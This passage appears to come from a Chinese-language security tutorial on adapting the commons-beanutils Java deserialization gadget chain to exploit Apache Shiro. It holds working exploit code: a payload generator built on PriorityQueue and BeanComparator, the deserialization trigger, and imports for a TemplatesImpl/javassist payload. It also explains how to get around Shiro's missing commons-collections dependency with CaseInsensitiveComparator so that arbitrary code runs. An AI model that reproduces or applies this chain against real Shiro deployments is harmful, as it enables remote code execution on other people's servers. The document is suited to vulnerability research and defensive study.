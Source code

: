 ```java
        queue.add("1");

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        return barr.toByteArray();
    }

    public static void main(String[] args) throws Exception {
        byte[] payload = getPayload();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(payload));
        ois.readObject();
    }
}
```


## 在shiro下利用的坑点
1. Shiro中自带的commons-beanutils与我们本地的版本不一致，就可能在反序列化时出现serialVersionUID对应不上的问题
2. commons-beanutils本来依赖于commons-collections，但是在Shiro中，它的commons-beanutils虽然包含了一部分commons-collections的类，但却不全。这也导致，正常使用Shiro的时候不需要依赖于commons-collections，但反序列化利用的时候需要依赖于commons-collections。

### 解决第一个坑点
解决第一个坑点很简单，将依赖版本替换就可以，还有一种方式是通过自定义ClassLoader来做隔离

### 解决第二个坑点
我们来看看我们这条链究竟是哪里用到了commons-collections的依赖:
![](https://gitee.com/guuest/images/raw/master/img/20211116190140.png)
当我们没有提供comparator时，他会使用commons-collections的Comparator。为了解决这个问题，我们需要寻找一个新的Comparator，它要满足以下条件:
-   实现`java.util.Comparator`接口
-   实现`java.io.Serializable`接口
-   Java、shiro或commons-beanutils自带，且兼容性强

结合参考文章，我们找到了CaseInsensitiveComparator这个类，同时我们可以很简单地通过`String.CASE_INSENSITIVE_ORDER`拿到上下文中的`CaseInsensitiveComparator`对象:
![](https://gitee.com/guuest/images/raw/master/img/20211116190403.png)
将链稍作修改，修改BeanComparator的实例化参数，即可成功在shiro中执行任意代码:
```java
package top.longlone;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;
```